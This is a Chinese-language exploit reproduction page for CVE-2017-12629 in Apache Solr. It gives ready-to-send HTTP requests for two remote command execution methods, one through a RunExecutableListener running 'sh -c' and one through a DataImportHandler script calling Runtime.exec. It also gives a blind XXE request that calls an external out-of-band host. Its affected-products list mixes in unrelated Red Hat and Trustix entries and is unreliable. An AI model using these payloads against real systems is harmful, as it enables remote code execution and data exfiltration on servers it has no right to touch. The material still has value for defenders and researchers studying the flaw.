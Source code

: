 ```yaml
---
title: "（CVE-2017-12629）Apache Solr rce&xxe 漏洞"
id: zhfly2824
---
```


# （CVE-2017-12629）Apache Solr rce&xxe 漏洞

## 一、漏洞简介

## 二、漏洞影响

Redhat Single Sign-On 7.0
+ Redhat Linux 6.2 E sparc
+ Redhat Linux 6.2 E i386
+ Redhat Linux 6.2 E alpha
+ Redhat Linux 6.2 sparc
+ Redhat Linux 6.2 i386
+ Redhat Linux 6.2 alpha
Redhat JBoss Portal Platform 6
Redhat JBoss EAP 7 0
Redhat Jboss EAP 6
Redhat JBoss Data Grid 7.0.0
Redhat Enterprise Linux 6
+ Trustix Secure Enterprise Linux 2.0
+ Trustix Secure Linux 2.2
+ Trustix Secure Linux 2.1
+ Trustix Secure Linux 2.0
Redhat Collections for Red Hat Enterprise Linux 0
Apache Solr 6.6.1
Apache Solr 6.6
Apache Solr 6.5.1
Apache Solr 6.5
Apache Solr 6.4
Apache Solr 6.3
Apache Solr 6.2
Apache Solr 6.6
Apache Solr 6.3
Apache Solr 6.0
Apache Lucene 0

## 三、复现过程

### rce 姿势一

*   首先创建一个listener，其中设置exe的值为我们想执行的命令，args的值是命令参数：

```
POST /solr/demo/config HTTP/1.1
Host: 10.0.83.79:8983
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 158 `{“add-listener”:{“event”:“postCommit”,“name”:“newlistener”,“class”:“solr.RunExecutableListener”,“exe”:“sh”,“dir”:"/bin/",“args”:["-c", “touch /tmp/success”]}}` 
```

![image](../img/52b1a1102d82112805728fcf6ccd0fab.png)

在solr管理界面新建了listen

![image](../img/1426776e5c8be3f15b8e13d972b695e6.png)

*   然后进行update操作，触发刚才添加的listener：

```
POST /solr/demo/update HTTP/1.1
Host: 10.0.83.79:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15 `[{“id”:“test”}]` 
```

![image](../img/42e8f2bcece87a611e4e4405b2d9e775.png)

### rce 姿势二

![image](../img/798637eb1295f5be662bece6f6dd4b2b.png)

如上图所示，首先打开刚刚创建好的`test`核心，选择Dataimport功能并选择debug模式，填入以下POC：

```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig> 
```

点击`Execute with this Confuguration`会发送以下请求包：

payload(这里我直接填无法命令执行替换如下payload)

```
POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
Host: 10.0.83.79:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 679
Connection: close
Cookie: csrftoken=gzcSR6Sj3SWd3v4ZxmV5OcZuPKbOhI6CMpgp5vIMvr5wQAL4stMtxJqL2sUE8INi; sessionid=snzojzqa5zn187oghf06z6xodulpohpr `command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%[2Fstackoverflow.com](http://2Fstackoverflow.com)%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport` 
```

![image](../img/3a696fcbe8a7cd70ada3690a33882d96.png)

### xxe

由于返回包中不包含我们传入的XML中的信息，所以这是一个Blind XXE漏洞，我们发送如下数据包（自行修改其中的XXE Payload）：

```
GET /solr/demo/select?q=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A%3C%21DOCTYPE%20root%20%5B%0A%3C%21ENTITY%20%25%20remote%20SYSTEM%20%22http%3A//xxe.rqe94e.ceye.io/%22%3E%0A%25remote%3B%5D%3E%0A%3Croot/%3E&wt=xml&defType=xmlparser HTTP/1.1
Host: your-ip:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close 
```

使用`ceye`

发送payload

![image](../img/ede1dce47c9a99d19e95125710bc2c0e.png)

ceye接收

![image](../img/68e13c99a3323a371477ae6d2b419f5e.png)

## 参考链接

> https://wh0ale.github.io/2019/08/26/Apache-Solr安全问题/
